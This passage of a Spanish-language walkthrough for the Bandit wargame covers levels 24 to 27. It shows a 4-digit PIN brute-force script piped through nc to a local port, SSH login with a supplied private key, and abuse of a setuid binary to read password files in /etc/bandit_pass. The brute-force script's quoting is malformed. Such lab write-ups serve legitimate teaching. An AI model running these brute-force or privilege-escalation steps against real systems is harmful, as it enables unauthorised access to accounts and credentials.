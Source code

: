 **Comando:**  

```bash
mkdir /tmp/brute-force
cd /tmp/brute-force
nano brute.sh
  #!/bin/bash
  for i in {0000..9999}; 
    do echo \"password \$i\"; 
  done | nc localhost 30002" > brute.sh
chmod +x brute.sh
./brute.sh
```

**Solución:**  
El servidor en el puerto 30002 requiere la contraseña anterior seguida de un código PIN de 4 dígitos. Generamos todas las combinaciones posibles y las enviamos con `nc`. Cuando encontramos el PIN correcto, el servidor nos devuelve la nueva contraseña.  

---

### **Nivel 25 → Nivel 26**  

**Objetivo:** Acceder al siguiente nivel usando una clave privada SSH.  

**Comando:**  

```bash
ls -l
file bandit26.sshkey
chmod 600 bandit26.sshkey
ssh -i bandit26.sshkey bandit26@localhost
cat /etc/bandit_pass/bandit26
```

**Solución:**  
El archivo `bandit26.sshkey` es una clave privada SSH que permite autenticarse como `bandit26` sin necesidad de contraseña. Se usa para conectarse al servidor y leer el archivo con la nueva contraseña.  

---

### **Nivel 26 → Nivel 27**  

**Objetivo:** Utilizar un binario con permisos especiales para obtener la contraseña.  

**Comando:**  

```bash
ls -la
file bandit27-do
cat text.txt
./bandit27-do id
./bandit27-do whoami
echo "cat /etc/bandit_pass/bandit27" > /tmp/getpass.sh
chmod +x /tmp/getpass.sh
./bandit27-do /tmp/getpass.sh
```
